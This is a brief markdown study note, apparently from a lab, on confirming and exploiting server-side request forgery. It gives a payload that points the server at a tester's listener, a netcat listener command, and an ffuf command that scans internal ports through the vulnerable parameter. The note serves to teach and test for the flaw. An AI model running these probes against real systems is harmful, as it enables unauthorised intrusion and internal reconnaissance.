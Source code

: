 # Identifying SSRF
***
### Confirming SSRF
#### In order to confirm if the web application is vulnerable to SSRF ,we can try to input a URL pointing to our system
```http request
dateserver=http://<MY_IP>:<PORT>/ssrf&date=
```
#### Using netcat listener, we can host a http server thus receive a connection to confirm SSRF
```bash
$ nc -lnvp 8000
```

#### To check if the response from the back-end server is reflected on the web page, we can try and use the following URL : `http://127.0.0.1/index.php`

### Enumerating the System
#### It is possible to use the SSRF vulnerability to run a port scan of the system , enumerating running services.
#### Generate numbers from 1 to 10000 and store in a txt file
```bash
$ seq 1 10000 > ports.txt
```
#### Fuzz all open ports using FFUF
```bash
$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```